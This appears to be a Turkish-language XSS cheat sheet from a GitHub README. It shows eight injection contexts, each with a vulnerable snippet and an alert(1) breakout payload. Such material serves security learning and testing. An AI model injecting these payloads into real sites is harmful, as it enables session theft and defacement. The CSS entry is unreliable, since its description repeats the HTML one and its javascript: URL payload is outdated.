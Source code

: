 <h1>CONTEXTS</h1>
<br>

<h2>🔹 1. HTML Element Context (Tag Context)</h2>
<h4>User input direkt HTML elementin içine yerleştirilir.</h4><br>

📌 Örnek:  
`<div>PAYLOAD</div>`  
<br>
🎯 Exploit:  
```html
</div><script>alert(1)</script>
```
<br>



<h2>🔹 2. HTML Attribute Context</h2>
<h4>Input, bir HTML attribute değerine girer.</h4><br>

📌 Örnek:  
`<input type="text" value="PAYLOAD">`  
<br>
🎯 Exploit:  
```html
" autofocus onfocus=alert(1) x="
```
<br>



<h2>🔹 3. HTML Event Handler Context</h2>
<h4>Attribute kısmı ama event tetikleyici (onclick, onerror vs.).</h4><br>

📌 Örnek:  
`<button onclick="PAYLOAD">Click me</button>`  
<br>
🎯 Exploit:  
```html
" onclick=alert(1) x="
```
<br>



<h2>🔹 4. JavaScript Context (Script Block Injection)</h2>
<h4>Input, bir script bloğuna gömülür.</h4><br>

📌 Örnek:  
`<script>
    var name = "PAYLOAD";
</script>
`
<br><br>
🎯 Exploit:  
```html
";alert(1);//
```
<br>



<h2>🔹 5. JavaScript Inline Event Context</h2>
<h4>HTML içinde ama JS çalıştırılır.</h4><br>

📌 Örnek:  
`<button onclick="doSomething('PAYLOAD')">`  
<br>
🎯 Exploit:  
```html
');alert(1);//
```
<br>



<h2>🔹 6. DOM-Based Context (innerHTML, location.hash vs.)</h2>
<h4>JavaScript input'u alıp DOM’a gömer. Server tarafı devrede yok.</h4><br>

📌 Örnek:  
`document.body.innerHTML = location.hash;`  
<br>
🎯 Exploit:  
```html
#<img src=x onerror=alert(1)>
```
<br>



<h2>🔹 7. URL / HREF / SRC Context</h2>
<h4>Veri href, src, action gibi URI attribute’larına yazılır.</h4><br>

📌 Örnek:  
`<a href="PAYLOAD">Click</a>`  
<br>
🎯 Exploit:  
```html
<a href="javascript:alert(1)">Click</a>
```
<br>



<h2>🔹 8. CSS Context</h2>
<h4>User input direkt HTML elementin içine yerleştirilir.</h4><br>

📌 Örnek:  
`<style>
  body { background: PAYLOAD; }
</style>
`  
<br>
🎯 Exploit:  
```html
url("javascript:alert(1)")
```
